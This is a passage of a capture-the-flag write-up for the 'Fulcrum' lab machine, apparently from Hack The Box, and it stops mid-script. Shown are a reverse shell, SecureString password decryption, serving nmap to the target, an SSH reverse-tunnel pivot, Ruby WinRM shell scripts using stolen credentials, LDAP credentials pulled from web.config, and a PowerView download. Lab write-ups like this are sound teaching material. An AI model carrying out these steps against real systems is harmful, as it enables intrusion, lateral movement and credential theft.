libvirt+   1755  4.2 27.7 3476540 2266748 ?     Sl   Jun11 230:18 qemu-system-x86_64 -enable-kvm -name FILE -S -machine pc-i440fx-xenial,accel=kvm,usb=off -cpu Westmere -m 2048 -realtime mlock=off -smp 2,sockets=2,cores=1,threads=1 -uuid 2ba34a36-6c28-4bcf-a8f6-c160e218d507 -nographic -no-user-config -nodefaults -chardev socket,id=charmonitor,path=/var/lib/libvirt/qemu/domain-FILE/monitor.sock,server,nowait -mon chardev=charmonitor,id=monitor,mode=control -rtc base=utc,driftfix=slew -global kvm-pit.lost_tick_policy=discard -no-hpet -no-shutdown -global PIIX4_PM.disable_s3=1 -global PIIX4_PM.disable_s4=1 -boot strict=on -device ich9-usb-ehci1,id=usb,bus=pci.0,addr=0x6.0x7 -device ich9-usb-uhci1,masterbus=usb.0,firstport=0,bus=pci.0,multifunction=on,addr=0x6 -device ich9-usb-uhci2,masterbus=usb.0,firstport=2,bus=pci.0,addr=0x6.0x1 -device ich9-usb-uhci3,masterbus=usb.0,firstport=4,bus=pci.0,addr=0x6.0x2 -device virtio-serial-pci,id=virtio-serial0,bus=pci.0,addr=0x5 -drive file=/var/lib/libvirt/images/FILE.vmdk,format=vmdk,if=none,id=drive-ide0-0-0 -device ide-hd,bus=ide.0,unit=0,drive=drive-ide0-0-0,id=ide0-0-0,bootindex=1 -drive if=none,id=drive-ide0-0-1,readonly=on -device ide-cd,bus=ide.0,unit=1,drive=drive-ide0-0-1,id=ide0-0-1 -netdev tap,fd=28,id=hostnet0 -device rtl8139,netdev=hostnet0,id=net0,mac=52:54:00:8f:b9:f9,bus=pci.0,addr=0x4 -chardev pty,id=charserial0 -device isa-serial,chardev=charserial0,id=serial0 -chardev spicevmc,id=charchannel0,name=vdagent -device virtserialport,bus=virtio-serial0.0,nr=1,chardev=charchannel0,id=channel0,name=com.redhat.spice.0 -device qxl-vga,id=video0,ram_size=67108864,vram_size=67108864,vgamem_mb=16,bus=pci.0,addr=0x2 -chardev spicevmc,id=charredir0,name=usbredir -device usb-redir,chardev=charredir0,id=redir0 -chardev spicevmc,id=charredir1,name=usbredir -device usb-redir,chardev=charredir1,id=redir1 -device virtio-balloon-pci,id=balloon0,bus=pci.0,addr=0x7 -msg timestamp=on
root       1760  0.0  0.0      0     0 ?        S    Jun11   1:40 [kvm-pit/1755]
root      30383  0.0  0.0      0     0 ?        S    Jun13   0:04 [kworker/2:2]
www-data  31466  0.0  0.1 245192 13392 ?        S    Jun13   0:00 php-fpm: pool www
root      38205  0.0  0.0      0     0 ?        S    03:53   0:09 [kworker/1:2]
root      39866  0.0  0.0      0     0 ?        S    06:47   0:37 [kworker/0:2]
root      39960  0.0  0.0      0     0 ?        S    06:59   0:12 [kworker/2:1]
root      42930  0.0  0.0      0     0 ?        S    12:48   0:11 [kworker/3:1]
root      45116  0.0  0.0      0     0 ?        S    17:00   0:03 [kworker/1:0]
root      45479  0.0  0.0      0     0 ?        S    17:40   0:00 [kworker/3:2]
root      47462  0.0  0.0      0     0 ?        S    21:32   0:00 [kworker/0:1]
root      47492  0.0  0.0      0     0 ?        S    21:37   0:00 [kworker/u256:2]
www-data  47652  0.0  0.0   4508   700 ?        S    21:54   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  47656  0.0  0.0   4508   700 ?        S    21:54   0:00 /bin/sh -i
root      47689  0.0  0.0      0     0 ?        S    21:59   0:00 [kworker/u256:1]
www-data  47694  0.0  0.0  32212  6912 ?        S    21:59   0:00 python -c import pty; pty.spawn("/bin/bash")
www-data  47695  0.0  0.0  18208  3328 pts/4    Ss   21:59   0:00 /bin/bash
www-data  47732  0.0  0.0  10532  3516 pts/4    S+   22:03   0:00 bash
www-data  47733  0.0  0.0  10648  3520 pts/4    S+   22:03   0:00 bash
www-data  47734  0.0  0.0   4384   712 pts/4    S+   22:03   0:00 tee -a
www-data  47920  0.0  0.0  10648  2816 pts/4    S+   22:04   0:00 bash
www-data  47921  0.0  0.0  34424  2912 pts/4    R+   22:04   0:00 ps aux


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x 1 root root  1037528 May 16  2017 /bin/bash
lrwxrwxrwx 1 root root        4 Oct  1  2017 /bin/sh -> dash
-rwxr-xr-x 1 root root   326224 Jul 19  2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root   618520 Jul 19  2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root   141904 Jul 19  2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root   453240 Jul 19  2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root    44104 Jun 14  2017 /sbin/agetty
-rwxr-xr-x 1 root root   145936 Jan 18  2016 /sbin/cgmanager
lrwxrwxrwx 1 root root       20 Oct  1  2017 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root   783984 Jul 26  2017 /sbin/iscsid
-rwxr-xr-x 1 root root    51336 Apr 16  2016 /sbin/lvmetad
-rwxr-xr-x 1 root root   513216 Sep 14  2017 /sbin/mdadm
-rwxr-xr-x 1 root root   224208 Jan 12  2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root    18504 Jul  5  2017 /usr/bin/lxcfs
-rwxr-xr-x 1 root root    44528 Feb  9  2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root 20031344 Aug 31  2017 /usr/lib/snapd/snapd
-rwxr-xr-x 1 root root    48112 Apr  8  2016 /usr/sbin/acpid
-rwxr-xr-x 1 root root    26632 Jan 14  2016 /usr/sbin/atd
-rwxr-xr-x 1 root root    44472 Apr  5  2016 /usr/sbin/cron
-rwxr-xr-x 1 root root   372072 Sep 26  2017 /usr/sbin/dnsmasq
-rwxr-xr-x 1 root root   478896 Aug 23  2017 /usr/sbin/libvirtd
-rwxr-xr-x 1 root root   599328 Apr  5  2016 /usr/sbin/rsyslogd
-rwxr-xr-x 1 root root   799216 Mar 16  2017 /usr/sbin/sshd
-rwxr-xr-x 1 root root   589280 Aug 23  2017 /usr/sbin/virtlogd


[-] /etc/init.d/ binary permissions:
total 368
drwxr-xr-x   2 root root  4096 Oct  4  2017 .
drwxr-xr-x 103 root root  4096 Oct  4  2017 ..
-rw-r--r--   1 root root  1319 Oct  4  2017 .depend.boot
-rw-r--r--   1 root root  1384 Oct  4  2017 .depend.start
-rw-r--r--   1 root root  1322 Oct  4  2017 .depend.stop
-rw-r--r--   1 root root  2427 Jan 19  2016 README
-rwxr-xr-x   1 root root  2243 Feb  9  2016 acpid
-rwxr-xr-x   1 root root  6223 Mar  3  2017 apparmor
-rwxr-xr-x   1 root root  2799 Mar 31  2016 apport
-rwxr-xr-x   1 root root  1071 Dec  6  2015 atd
-rwxr-xr-x   1 root root  1275 Jan 19  2016 bootmisc.sh
-rwxr-xr-x   1 root root  3565 Sep 14  2015 cgmanager
-rwxr-xr-x   1 root root  3354 Sep 14  2015 cgproxy
-rwxr-xr-x   1 root root  3807 Jan 19  2016 checkfs.sh
-rwxr-xr-x   1 root root  1098 Jan 19  2016 checkroot-bootclean.sh
-rwxr-xr-x   1 root root  9353 Jan 19  2016 checkroot.sh
-rwxr-xr-x   1 root root  1343 Apr  4  2016 console-setup
-rwxr-xr-x   1 root root  3049 Apr  5  2016 cron
-rwxr-xr-x   1 root root   937 Mar 28  2015 cryptdisks
-rwxr-xr-x   1 root root   896 Mar 28  2015 cryptdisks-early
-rwxr-xr-x   1 root root  2813 Dec  2  2015 dbus
-rwxr-xr-x   1 root root  4352 Mar 15  2013 ebtables
-rwxr-xr-x   1 root root  1105 Mar 15  2016 grub-common
-rwxr-xr-x   1 root root  1336 Jan 19  2016 halt
-rwxr-xr-x   1 root root  1423 Jan 19  2016 hostname.sh
-rwxr-xr-x   1 root root  3809 Mar 12  2016 hwclock.sh
-rwxr-xr-x   1 root root  1503 Mar 29  2016 iscsid
-rwxr-xr-x   1 root root  1804 Apr  4  2016 keyboard-setup
-rwxr-xr-x   1 root root  1300 Jan 19  2016 killprocs
-rwxr-xr-x   1 root root  2087 Dec 20  2015 kmod
-rwxr-xr-x   1 root root  5968 Aug 11  2017 libvirt-bin
-rwxr-xr-x   1 root root 16499 Aug 23  2017 libvirt-guests
-rwxr-xr-x   1 root root   695 Oct 30  2015 lvm2
-rwxr-xr-x   1 root root   571 Oct 30  2015 lvm2-lvmetad
-rwxr-xr-x   1 root root   586 Oct 30  2015 lvm2-lvmpolld
-rwxr-xr-x   1 root root  2300 Jul  5  2017 lxcfs
-rwxr-xr-x   1 root root  2541 Jun  8  2017 lxd
-rwxr-xr-x   1 root root  2611 Apr 11  2016 mdadm
-rwxr-xr-x   1 root root  1199 Jul 16  2014 mdadm-waitidle
-rwxr-xr-x   1 root root   703 Jan 19  2016 mountall-bootclean.sh
-rwxr-xr-x   1 root root  2301 Jan 19  2016 mountall.sh
-rwxr-xr-x   1 root root  1461 Jan 19  2016 mountdevsubfs.sh
-rwxr-xr-x   1 root root  1564 Jan 19  2016 mountkernfs.sh
-rwxr-xr-x   1 root root   711 Jan 19  2016 mountnfs-bootclean.sh
-rwxr-xr-x   1 root root  2456 Jan 19  2016 mountnfs.sh
-rwxr-xr-x   1 root root  4771 Jul 19  2015 networking
-rwxr-xr-x   1 root root  4579 Feb 11  2017 nginx
-rwxr-xr-x   1 root root  1581 Oct 16  2015 ondemand
-rwxr-xr-x   1 root root  2503 Mar 29  2016 open-iscsi
-rwxr-xr-x   1 root root  1578 Sep 18  2016 open-vm-tools
-rwxr-xr-x   1 root root  4987 Aug  9  2017 php7.0-fpm
-rwxr-xr-x   1 root root  1366 Nov 15  2015 plymouth
-rwxr-xr-x   1 root root   752 Nov 15  2015 plymouth-log
-rwxr-xr-x   1 root root  1192 Sep  6  2015 procps
-rwxr-xr-x   1 root root   778 Mar 15  2016 qemu-kvm
-rwxr-xr-x   1 root root  6366 Jan 19  2016 rc
-rwxr-xr-x   1 root root   820 Jan 19  2016 rc.local
-rwxr-xr-x   1 root root   117 Jan 19  2016 rcS
-rwxr-xr-x   1 root root   661 Jan 19  2016 reboot
-rwxr-xr-x   1 root root  4149 Nov 23  2015 resolvconf
-rwxr-xr-x   1 root root  4355 Jul 10  2014 rsync
-rwxr-xr-x   1 root root  2796 Feb  3  2016 rsyslog
-rwxr-xr-x   1 root root  1226 Jun  9  2015 screen-cleanup
-rwxr-xr-x   1 root root  3927 Jan 19  2016 sendsigs
-rwxr-xr-x   1 root root   597 Jan 19  2016 single
-rw-r--r--   1 root root  1087 Jan 19  2016 skeleton
-rwxr-xr-x   1 root root  4077 Mar 16  2017 ssh
-rwxr-xr-x   1 root root  6087 Apr 12  2016 udev
-rwxr-xr-x   1 root root  2737 Jan 19  2016 umountfs
-rwxr-xr-x   1 root root  2202 Jan 19  2016 umountnfs.sh
-rwxr-xr-x   1 root root  1879 Jan 19  2016 umountroot
-rwxr-xr-x   1 root root  1391 Apr 20  2017 unattended-upgrades
-rwxr-xr-x   1 root root  3111 Jan 19  2016 urandom
-rwxr-xr-x   1 root root  4088 Aug 11  2017 virtlockd
-rwxr-xr-x   1 root root  3987 Aug 11  2017 virtlogd
-rwxr-xr-x   1 root root  2757 Nov 10  2015 x11-common


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.16


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/curl


[-] Installed compilers:
ii  libllvm4.0:amd64                   1:4.0-1ubuntu1~16.04.2                     amd64        Modular compiler and toolchain technologies, runtime library
ii  libxkbcommon0:amd64                0.5.0-1ubuntu2                             amd64        library interface to the XKB compiler - shared library


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1766 Oct  1  2017 /etc/passwd
-rw-r--r-- 1 root root 855 Oct  1  2017 /etc/group
-rw-r--r-- 1 root root 575 Oct 22  2015 /etc/profile
-rw-r----- 1 root shadow 1019 Oct  1  2017 /etc/shadow


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 2584 Feb 18  2016 /etc/gai.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 100 Jan 10  2017 /etc/sos.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 144 Oct  1  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 967 Oct 30  2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 3028 Aug  1  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 2083 Oct  2  2017 /etc/sysctl.conf
-rw-r--r-- 1 root root 10368 Oct  2  2015 /etc/sensors3.conf
-rw-r--r-- 1 root root 92 Oct 22  2015 /etc/host.conf
-rw-r--r-- 1 root root 8464 Oct  4  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 1371 Jan 27  2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 191 Jan 18  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 6816 May 11  2017 /etc/overlayroot.conf
-rw-r--r-- 1 root root 4781 Mar 17  2016 /etc/hdparm.conf


[-] Location and contents (if accessible) of .bash_history file(s):
/home/blueprint/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Aug  1  2017 .
drwxr-xr-x 14 root root 4096 Oct  2  2017 ..


### SCAN COMPLETE ####################################
www-data@Fulcrum:/$
```

```sh
www-data@Fulcrum:/$ cd /var/www/uploads/
www-data@Fulcrum:~/uploads$ ls -lah
total 24K
drwxr-xr-x 2 root root 4.0K Oct  5  2017 .
drwxr-xr-x 6 root root 4.0K Oct  5  2017 ..
-rw-r--r-- 1 root root  714 Oct  4  2017 Fulcrum_Upload_to_Corp.ps1
-rw-r--r-- 1 root root  321 Oct  4  2017 home.php
-rw-r--r-- 1 root root  255 Oct  5  2017 index.php
-rw-r--r-- 1 root root  113 Oct  4  2017 upload.php
www-data@Fulcrum:~/uploads$
```

`Fulcrum_Upload_to_Corp.ps1`

```PowerShell
# TODO: Forward the PowerShell remoting port to the external interface
# Password is now encrypted \o/

$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
$4 = $3 | ConvertTo-SecureString -key $2
$5 = New-Object System.Management.Automation.PSCredential ($1, $4)

Invoke-Command -Computer upload.fulcrum.local -Credential $5 -File Data.ps1
```

[`Installing PowerShell on Kali Linux`](https://www.kali.org/tutorials/installing-powershell-on-kali-linux/)

```sh
apt update && apt -y install curl gnupg apt-transport-https
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
apt -y install libcurl3
apt -y install powershell
```

[`PowerShell One-Liner: Decrypt-SecureString`](https://blogs.msdn.microsoft.com/timid/2009/09/10/powershell-one-liner-decrypt-securestring/)

```sh
root@kali:~/fulcrum# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/pscore6-docs
Type 'help' to get help.

PS /root/fulcrum> $1 = 'WebUser'
PS /root/fulcrum> $2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
PS /root/fulcrum> $3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
PS /root/fulcrum> $4 = $3 | ConvertTo-SecureString -key $2
PS /root/fulcrum> $4
System.Security.SecureString
PS /root/fulcrum> [System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR($4))
M4ng£m£ntPa55
PS /root/fulcrum>
```

```
upload.fulcrum.local
WebUser
M4ng£m£ntPa55
```

###### WinRM

```sh
www-data@Fulcrum:~/uploads$ ip neigh
10.10.10.2 dev ens32 lladdr 00:50:56:8f:64:fe DELAY
192.168.122.228 dev virbr0 lladdr 52:54:00:74:9d:17 DELAY
fe80::250:56ff:fe8f:64fe dev ens32 lladdr 00:50:56:8f:64:fe router STALE
www-data@Fulcrum:~/uploads$
```

[`nmap`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

```sh
root@kali:~/fulcrum# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
--2018-06-14 17:40:25--  https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
Resolving github.com (github.com)... 192.30.255.112, 192.30.255.113
Connecting to github.com (github.com)|192.30.255.112|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap [following]
--2018-06-14 17:40:26--  https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5944464 (5.7M) [application/octet-stream]
Saving to: ‘nmap’

nmap                                               100%[================================================================================================================>]   5.67M  7.21MB/s    in 0.8s

2018-06-14 17:40:27 (7.21 MB/s) - ‘nmap’ saved [5944464/5944464]

root@kali:~/fulcrum# file nmap
nmap: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
root@kali:~/fulcrum#
```

```sh
root@kali:~/fulcrum# python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.62 - - [14/Jun/2018 17:04:07] "GET /LinEnum.sh HTTP/1.1" 200 -
10.10.10.62 - - [14/Jun/2018 17:41:37] "GET /nmap HTTP/1.1" 200 -
```

```sh
www-data@Fulcrum:~/uploads$ cd /dev/shm/
www-data@Fulcrum:/dev/shm$ curl -o nmap http://10.10.14.16:8090/nmap
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 5805k  100 5805k    0     0   828k      0  0:00:07  0:00:07 --:--:-- 1028k
www-data@Fulcrum:/dev/shm$ chmod +x nmap
```

```sh
www-data@Fulcrum:/dev/shm$ ./nmap 192.168.122.228 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2018-06-14 22:42 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 192.168.122.228
Host is up (0.0017s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
5986/tcp open  unknown
8080/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 158.27 seconds
www-data@Fulcrum:/dev/shm$
```

`5986` &rarr; [`WinRM`](https://github.com/WinRb/WinRM) {Windows Remote Management}

[`code-snippets`](https://github.com/Alamot/code-snippets.git)

```sh
root@kali:~/fulcrum# git clone https://github.com/Alamot/code-snippets.git
Cloning into 'code-snippets'...
remote: Counting objects: 332, done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 332 (delta 20), reused 47 (delta 13), pack-reused 275
Receiving objects: 100% (332/332), 744.47 KiB | 3.14 MiB/s, done.
Resolving deltas: 100% (121/121), done.
root@kali:~/fulcrum# cd code-snippets/
root@kali:~/fulcrum/code-snippets# ls
crypto  encodings  enum  hacking  hg_git  kivy  LICENSE  mssql  nl80211_info  README.md  share_internet  shutdown_manager  tesseract  vms  winrm  xkb
root@kali:~/fulcrum/code-snippets# cd winrm/
root@kali:~/fulcrum/code-snippets/winrm# ls
winrm_shell.rb  winrm_shell_with_upload.rb
root@kali:~/fulcrum/code-snippets/winrm#
root@kali:~/fulcrum/code-snippets/winrm# cp -p * ../../winrm
```

`winrm_shell.rb`

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'https://127.0.0.1:5986/wsman',
  transport: :ssl,
  user: 'WebUser',
  password: 'M4ng£m£ntPa55',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```

```sh
www-data@Fulcrum:/dev/shm$ ssh -N -R 5986:192.168.122.228:5986 root@10.10.14.16
Could not create directory '/var/www/.ssh'.
The authenticity of host '10.10.14.16 (10.10.14.16)' can't be established.
ECDSA key fingerprint is SHA256:3PoVjsKuVn4melVLRiHAPLkWKCkbhXvNKzHxN9Ds/Gw.
Are you sure you want to continue connecting (yes/no)? yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
root@10.10.14.16's password:
```

```sh
root@kali:~/fulcrum# netstat -antp | grep 5986
tcp        0      0 127.0.0.1:5986          0.0.0.0:*               LISTEN      7357/sshd: root
tcp6       0      0 ::1:5986                :::*                    LISTEN      7357/sshd: root
root@kali:~/fulcrum#
```

```sh
root@kali:~/fulcrum# curl -k https://127.0.0.1:5986
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Not Found</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Not Found</h2>
<hr><p>HTTP Error 404. The requested resource is not found.</p>
</BODY></HTML>
root@kali:~/fulcrum#
```

```sh
root@kali:~/fulcrum/winrm# gem install winrm
root@kali:~/fulcrum/winrm# ruby winrm_shell.rb
PS webserver\webuser@WEBSERVER Documents> whoami
webserver\webuser
PS webserver\webuser@WEBSERVER Documents> hostname
WebServer
PS webserver\webuser@WEBSERVER Documents> dir


    Directory: C:\Users\WebUser\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2017   8:39 PM            260 CheckFileServer.ps1
-a----       10/12/2017   4:23 AM          33266 Invoke-PsExec.ps1
-a----        10/2/2017   8:23 PM             24 user.txt


PS webserver\webuser@WEBSERVER Documents> type user.txt
You need to go deeper!
PS webserver\webuser@WEBSERVER Documents> cd ..
PS webserver\webuser@WEBSERVER WebUser> cd Desktop
PS webserver\webuser@WEBSERVER Desktop> dir


    Directory: C:\Users\WebUser\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/12/2017   3:08 AM         741212 psexec.exe


PS webserver\webuser@WEBSERVER Desktop> cd ..
PS webserver\webuser@WEBSERVER WebUser> dir


    Directory: C:\Users\WebUser


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/12/2017   3:07 AM                Desktop
d-r---       10/12/2017   4:23 AM                Documents
d-r---        7/16/2016   2:18 PM                Downloads
d-r---        7/16/2016   2:18 PM                Favorites
d-r---        7/16/2016   2:18 PM                Links
d-r---        7/16/2016   2:18 PM                Music
d-r---        7/16/2016   2:18 PM                Pictures
d-----        7/16/2016   2:18 PM                Saved Games
d-r---        7/16/2016   2:18 PM                Videos


PS webserver\webuser@WEBSERVER WebUser> cd Downloads
PS webserver\webuser@WEBSERVER Downloads> dir
PS webserver\webuser@WEBSERVER Downloads> cd C:\
PS webserver\webuser@WEBSERVER C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/2/2017   8:16 AM                inetpub
d-----        7/16/2016   2:18 PM                PerfLogs
d-r---       11/21/2016   2:36 AM                Program Files
d-----       11/21/2016   2:36 AM                Program Files (x86)
d-r---        10/2/2017   8:17 PM                Users
d-----        10/2/2017  11:19 AM                Windows


PS webserver\webuser@WEBSERVER C:\> cd inetpub
PS webserver\webuser@WEBSERVER inetpub> dir


    Directory: C:\inetpub


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/2/2017   8:16 AM                custerr
d-----        10/2/2017   8:50 AM                history
d-----        10/2/2017   8:17 AM                logs
d-----        10/2/2017   8:16 AM                temp
d-----        10/2/2017   8:12 PM                wwwroot


PS webserver\webuser@WEBSERVER inetpub> cd wwwroot
PS webserver\webuser@WEBSERVER wwwroot> dir


    Directory: C:\inetpub\wwwroot


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/2/2017   8:09 PM           5359 index.htm
-a----        10/2/2017   8:11 PM           1310 web.config


PS webserver\webuser@WEBSERVER wwwroot> type web.config
<?xml version="1.0" encoding="UTF-8"?>
<configuration xmlns="http://schemas.microsoft.com/.NetConfiguration/v2.0">
    <appSettings />
    <connectionStrings>
        <add connectionString="LDAP://dc.fulcrum.local/OU=People,DC=fulcrum,DC=local" name="ADServices" />
    </connectionStrings>
    <system.web>
        <membership defaultProvider="ADProvider">
            <providers>
                <add name="ADProvider" type="System.Web.Security.ActiveDirectoryMembershipProvider, System.Web, Version=2.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" connectionStringName="ADConnString" connectionUsername="FULCRUM\LDAP" connectionPassword="PasswordForSearching123!" attributeMapUsername="SAMAccountName" />
            </providers>
        </membership>
    </system.web>
<system.webServer>
   <httpProtocol>
      <customHeaders>
           <clear />
      </customHeaders>
   </httpProtocol>
        <defaultDocument>
            <files>
                <clear />
                <add value="Default.asp" />
                <add value="Default.htm" />
                <add value="index.htm" />
                <add value="index.html" />
                <add value="iisstart.htm" />
            </files>
        </defaultDocument>
</system.webServer>
</configuration>
PS webserver\webuser@WEBSERVER wwwroot>
```

```
dc.fulcrum.local
FULCRUM\LDAP
PasswordForSearching123!
```

###### PowerView to Enumerate AD Users

[`PowerView.ps1`](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)

```sh
root@kali:~/fulcrum/winrm# wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
--2018-06-14 19:40:47--  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 769757 (752K) [text/plain]
Saving to: ‘PowerView.ps1’

PowerView.ps1                                      100%[================================================================================================================>] 751.72K  --.-KB/s    in 0.1s

2018-06-14 19:40:47 (4.97 MB/s) - ‘PowerView.ps1’ saved [769757/769757]

root@kali:~/fulcrum/winrm# ls -l
total 764
-rw-r--r-- 1 root root 769757 Jun 14 19:40 PowerView.ps1
-rw-r--r-- 1 root root    666 Jun 14 18:35 winrm_shell.rb
-rw-r--r-- 1 root root   1453 Jun 14 19:00 winrm_shell_with_upload.rb
root@kali:~/fulcrum/winrm#
```

`winrm_shell_with_upload.rb`

```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt

conn = WinRM::Connection.new(
  endpoint: 'https://127.0.0.1:5986/wsman',
  transport: :ssl,
  user: 'WebUser',
  password: 'M4ng£m£ntPa55',
  :no_ssl_peer_verification => true
)

file_manager = WinRM::FS::FileManager.new(conn)


class String
  def tokenize
    self.
      split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
      select {|s| not s.empty? }.
      map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
  end
end


command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        if command.start_with?('UPLOAD') then
            upload_command = command.tokenize
            print("Uploading " + upload_command[1] + " to " + upload_command[2])
            file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|
                puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")
            end
            command = "echo `nOK`n"
        end

        output = shell.run(command) do |stdout, stderr|
            STDOUT.print(stdout)
